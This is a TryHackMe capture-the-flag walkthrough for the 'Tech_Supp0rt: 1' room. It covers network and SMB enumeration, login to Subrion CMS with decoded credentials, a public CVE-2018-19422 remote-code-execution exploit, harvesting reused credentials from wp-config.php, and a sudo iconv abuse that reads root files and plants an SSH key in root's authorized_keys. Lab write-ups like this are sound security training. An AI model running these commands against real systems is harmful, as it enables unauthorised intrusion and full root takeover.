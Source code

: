 # Tech\_Supp0rt: 1

**Room Link:** [https://tryhackme.com/room/techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>





### TCP/80 - HTTP

gobuster didn't find anything and the home page was just the default ubuntu page. Couldn't find anything of interest.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (202).png" alt=""><figcaption></figcaption></figure>

### TCP/445 - SMB

**Kali**

```
smbclient -L //$VICTIM/
smbclient \\\\$VICTIM\\websvr
smb: \> ls
smb: \> prompt
smb: \> mget *
```

<figure><img src="../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

I used Cyberchef and it was able to decode the creds

<figure><img src="../../.gitbook/assets/image (205).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

<figure><img src="../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>











<figure><img src="../../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>



I was able to access the subrion page from panel as mentioned in the message as subrion by itself doesn't work. &#x20;

```
Username: admin
Password: Scam2021
```

<figure><img src="../../.gitbook/assets/image (206).png" alt=""><figcaption></figcaption></figure>



## Shell

**Exploit:** [https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE](https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE)

Since it's using Subrion CMS v4.2.1 I looked for exploits and found one for a rce

```
sudo apt-get install python3-bs4
git clone https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE.git
cd CVE-2018-19422-SubrionCMS-RCE/
sudo python3 SubrionRCE.py -u http://$VICTIM/subrion/panel/ -l admin -p Scam2021
```

<figure><img src="../../.gitbook/assets/image (207).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
cat /var/www/html/wordpress/wp-config.php
```

<figure><img src="../../.gitbook/assets/image (208).png" alt=""><figcaption></figcaption></figure>

The hacker reused the password for both wordpress and ssh.&#x20;

**Kali**

```
ssh scamsite@$VICTIM
Password: ImAScammerLOL!123!
```

<figure><img src="../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>



### Option #1&#x20;

Just get flag

```
LFILE=/root/root.txt
sudo iconv -f 8859_1 -t 8859_1 "$LFILE"
```





## Privilege Escalation

**Kali**

```
ssh-keygen -t rsa
cat ~/.ssh/id_rsa.pub 
```

<figure><img src="../../.gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (212).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
LFILE=/root/.ssh/authorized_keys
echo "$YOURKEY" | sudo iconv -f 8859_1 -t 8859_1 -o "$LFILE"
```

<figure><img src="../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh root@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (214).png" alt=""><figcaption></figcaption></figure>







